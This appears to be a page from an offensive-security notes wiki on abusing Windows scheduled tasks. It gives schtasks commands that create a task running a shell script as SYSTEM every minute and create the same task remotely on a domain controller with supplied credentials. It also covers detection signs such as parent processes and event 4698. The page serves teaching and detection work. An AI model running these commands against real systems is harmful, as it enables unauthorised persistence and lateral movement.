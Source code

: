 ```yaml
---
description: 'Code execution, privilege escalation, lateral movement and persitence.'
---
```


# Schtask

## Execution

Creating a new scheduled task that will launch shell.cmd every minute:

{% code title="attacker@victim" %}
```bash
schtasks /create /sc minute /mo 1 /tn "eviltask" /tr C:\tools\shell.cmd /ru "SYSTEM"
```
{% endcode %}

## Observations

Note that processes spawned as scheduled tasks have `taskeng.exe` process as their parent:

![](../../.gitbook/assets/schtask-ancestry.png)

Monitoring and inspecting commandline arguments and established network connections by processes can help uncover suspicious activity:

![](../../.gitbook/assets/schtasks-created.png)

![](../../.gitbook/assets/schtask-connection.png)

Also, look for events 4698 indicating new scheduled task creation:

![](../../.gitbook/assets/schtasks-created-new-task.png)

### Lateral Movement

Note that when using schtasks for lateral movement, the processes spawned do not have taskeng.exe as their parent, rather - svchost:

{% code title="attacker@victim" %}
```bash
schtasks /create /sc minute /mo 1 /tn "eviltask" /tr calc /ru "SYSTEM" /s dc-mantvydas /u user /p password
```
{% endcode %}

![](../../.gitbook/assets/schtasks-remote.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1053" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/taskschd/schtasks" %}

